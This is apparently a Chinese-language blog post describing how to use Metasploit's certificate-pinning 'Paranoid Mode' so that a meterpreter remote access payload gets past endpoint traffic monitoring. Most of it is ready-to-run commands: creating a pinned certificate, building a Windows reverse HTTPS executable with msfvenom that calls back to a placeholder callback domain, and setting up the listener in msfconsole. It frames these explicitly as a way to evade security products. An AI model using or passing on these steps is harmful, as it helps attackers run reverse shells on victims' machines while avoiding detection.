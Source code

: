```yaml
---
title: MSF TLS pinning
author: Admin
date: 2020-05-01 14:01:00 +0800
categories: [RAT, MSF]
tags: [流量加密, MSF, 免杀]
---
```


# 开宗明义

利用证书锁定过掉流量监控，例如赛某的端点防护。

Rapid7将之称为```Paranoid Mode(偏执模式)```，相关wiki：[github.com/rapid7/metasploit-framework/wiki/Meterpreter-Paranoid-Mode](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Paranoid-Mode)

# 创建证书

```shell
openssl req -new -newkey rsa:4096 -days 36500 -nodes -x509 -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" -keyout cert.key -out cert.crt
cat cert.key  cert.crt > cert.pem
rm -f cert.key  cert.crt
```

其中```www.example.com```为回连域名或IP

# 生成payload

```shell
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=www.example.com LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=./cert.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedPSH -f exe -o ./launch-paranoid.exe
```

支持的payload:

|  Staged (payload.bat\|ps1\|txt\|exe):   |
|  :----  |
| windows/meterpreter/reverse_winhttps  |
| windows/meterpreter/reverse_https  |
| windows/x64/meterpreter/reverse_https  |

|  Stageless (binary.exe):   |
|  :----  |
| windows/meterpreter_reverse_https  |
| windows/x64/meterpreter_reverse_https  |


# 设置监听

```shell
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_winhttps
set LHOST www.example.com
set LPORT 443
set HandlerSSLCert ./cert.pem
set IgnoreUnknownPayloads true
set StagerVerifySSLCert true
set exitonsession false
run -j -z
```

# 在MacOS上的tips

使用完msfconsole后，会有残留进程，建议运行```msfdb stop```结束。